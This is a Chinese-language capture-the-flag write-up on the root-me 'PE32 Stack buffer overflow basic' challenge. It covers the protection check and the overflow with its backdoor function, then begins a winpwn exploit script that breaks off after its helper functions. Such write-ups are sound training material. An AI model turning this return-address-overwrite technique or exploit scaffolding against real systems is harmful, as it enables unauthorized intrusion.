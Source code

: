 ```
```



## 0x05 以[root-me]PE32 – Stack buffer overflow basic为例

### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E4%BF%9D%E6%8A%A4%E6%A3%80%E6%9F%A5"></a>程序保护检查

[![](https://img.lhyerror404.cn/error404/2020-07-09-094628.png)](https://img.lhyerror404.cn/error404/2020-07-09-094628.png)

发现基本是无保护程序

### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>程序漏洞分析

存在一个明显的栈溢出

[![](https://img.lhyerror404.cn/error404/2020-07-09-095424.png)](https://img.lhyerror404.cn/error404/2020-07-09-095424.png)

存在后门函数

[![](https://img.lhyerror404.cn/error404/2020-07-09-095617.png)](https://img.lhyerror404.cn/error404/2020-07-09-095617.png)

### <a class="reference-link" name="%E7%A8%8B%E5%BA%8F%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>程序漏洞利用

直接利用常规的栈溢出思路，覆盖返回地址以及`EBP`

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from winpwn import *
import os
import traceback
import sys
context.log_level='debug'
# context.arch='amd64'
context.arch='i386'

# file_name=ELF('./file_name', checksec = False)

def get_sh():
    if len(sys.argv) &gt; 1 and sys.argv[1] == 'REMOTE' :
        return remote(sys.argv[2],sys.argv[3])
    else:
        return process("./ch72.exe")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string).strip(end_string),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].strip(end_string).ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
```